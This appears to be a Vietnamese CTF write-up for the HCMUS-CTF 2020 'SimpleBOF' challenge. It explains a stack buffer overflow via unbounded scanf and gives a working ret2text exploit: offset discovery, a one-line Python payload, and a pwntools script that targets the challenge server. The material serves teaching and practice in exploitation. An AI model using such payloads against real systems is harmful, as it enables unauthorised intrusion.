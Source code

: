 # [HCMUS-CTF 2020](https://ctf.hcmus.edu.vn/)

## ⚡ [SimpleBOF](https://ctf.hcmus.edu.vn/challenges#SimpleBOF)

[![df](https://img.shields.io/badge/B3T4-shark-brightgreen.svg)](https://img.shields.io/badge/B3T4-shark-brightgreen.svg)
[![df](https://img.shields.io/badge/member-viplazy-brightgreen.svg)](https://img.shields.io/badge/member-viplazy-brightgreen.svg)
[![df](https://img.shields.io/badge/50-pts-brightgreen.svg)](https://img.shields.io/badge/50-pts-brightgreen.svg)

Tác giả: `pakkunandy`



Tags: `pwn` `bof` `ret2text`

<!--
### Challenge Description
-->

### Summary

Đây là challenge cơ bản nhất về buffer overflow.

Đầu tiên, kiểm tra thông tin binary:

```bash
$ checksec SimpleBOF
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
Chương trình này chạy trên nhân x86, đã tắt hầu hết các bảo vệ.

Mở chương trình với **IDA**, ta kiểm tra hàm **main**:

```cpp
int main()
{
  ...
  char bof[64]; // [sp+0h] [bp-4Ch]@1
  ...

  clean();
  __isoc99_scanf("%s", bof);
  ...
  return 0;
}
```
Lỗ hổng xảy ra ở hàm `scanf` khi chương trình cố gắng đọc vào vùng nhớ `bof` trên stack nhưng lại không giới hạn số lượng kí tự nhập.

</br>

```cpp 
void success()
{
  char flag[64]; // [sp+Ch] [bp-4Ch]@4
  FILE *fp; // [sp+4Ch] [bp-Ch]@1

  fp = fopen("flag.txt", (const char *)&unk_8048810);
  if ( !fp )
  {
    puts("File not found?, please contact admin");
    exit(0);
  }
  fgets(flag, 64, fp);
  fclose(fp);
  puts(flag);
}
```
Ta dễ thấy thêm hàm **success**, dùng để in ra flag của challenge.

Như vậy, để tới được hàm trên, ta sẽ lợi dụng lỗ hổng stack overflow để ghi đè địa chỉ trả về của hàm **main** trên stack thành địa chỉ của hàm **success** và lấy flag.

### Exploit

- Tìm vị trí địa chỉ trả về của hàm main
    ```bash
    $ python -c 'print "A"*64 + "BBBB"' | strace ./SimpleBOF
    --- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x42424242} ---
    +++ killed by SIGSEGV (core dumped) +++
    Segmentation fault (core dumped)
    ```
    Như vậy, sau **64** bytes offset thì địa chỉ trả về của hàm main (si_addr) bị ghi đè thành "BBBB" (là giá trị địa chỉ lệnh không hợp lệ dẫn đến break chương trình).




- Lấy địa chỉ của hàm **success**

    ```bash
    $ objdump -t SimpleBOF | grep success
    08048670 g     F .text  00000087              success
    ```

    Kết quả: **`0x08048670`**
- Local exploit
    
    Ta thay "BBBB" thành địa chỉ của hàm **success**, lưu ý chuẩn [Little Endian](https://en.wikipedia.org/wiki/Endianness)
    
    ```bash
    $ python -c 'print "A"*64 + "\x70\x86\x04\x08"' | ./SimpleBOF
    File not found?, please contact admin
    ```

    Thành công, ta chạy trên server và lấy flag thôi!

## Code

```python
#!/usr/bin/env python

from pwn import *

e = ELF("./SimpleBOF")
p = remote("159.65.13.76", 63001)

offset = 64
success_addr = e.sym["success"]

payload = 'A'*offset + p32(success_addr)

p.sendline(payload)
p.interactive()
```
</br>

📫 Flag: **`HCMUS-CTF{}`**
